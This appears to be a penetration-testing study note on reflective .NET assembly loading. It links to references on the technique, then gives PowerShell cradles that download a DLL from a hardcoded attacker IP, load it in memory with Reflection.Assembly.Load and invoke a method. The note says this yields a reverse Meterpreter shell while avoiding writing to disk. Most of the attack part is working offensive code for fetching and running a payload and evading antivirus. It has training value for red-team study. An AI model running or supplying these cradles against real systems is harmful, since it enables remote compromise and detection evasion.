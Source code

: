 #### Reflective Load notes

- https://ppn.snovvcrash.rocks/red-team/maldev/code-injection/shellcode-runners#c-dll-with-powershell-cradle-in-memory
- https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/av-edr-evasion/dotnet-assembly/dotnet-reflective-assembly

- https://osnotes.jackielam.net/osep/attack/client-side-code-execution/in-memory-reflective-load-.dll-+-.ps1 

- https://www.petergirnus.com/blog/what-is-reflective-code-loading-t1620
- https://attack.mitre.org/techniques/T1620/

- https://medium.com/@andrew.petrus/exploring-powershell-reflective-loading-in-lumma-stealer-8de0e6c04131

- https://powersploit.readthedocs.io/en/latest/CodeExecution/Invoke-ReflectivePEInjection/



#### open the previous ConsoleApp1 C# project in Visual Studio. We’ll create a new project in the solution to house our code by right-clicking Solution ‘ConsoleApp1’ in the Solution Explorer, navigating to Add, and clicking New Project, from the Add a new project menu, we’ll select Class Library (.Net Framework), which will create a managed DLL when we compile

#### Load and Execute with PS In memory

(New-ObjectSystem.Net.WebClient).DownloadFile('http://192.168.119.120/ClassLibrary1.dll','C:\Users\Offsec\ClassLibrary1.dll')
$assem = [System.Reflection.Assembly]::LoadFile("\ClassLibrary1.dll")
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)

# Executing this PowerShell results in a reverse Meterpreter shell, but it will download the assembly to disk before loading it. We can subvert this by instead using the Load method, which accepts a Byte array in memory instead of a disk file. In this case, we’ll modify our PowerShell code to use the DownloadData method of the Net.WebClient class to download the DLL as a byte array.

or

$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.119.120/ClassLibrary1.dll')
$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)
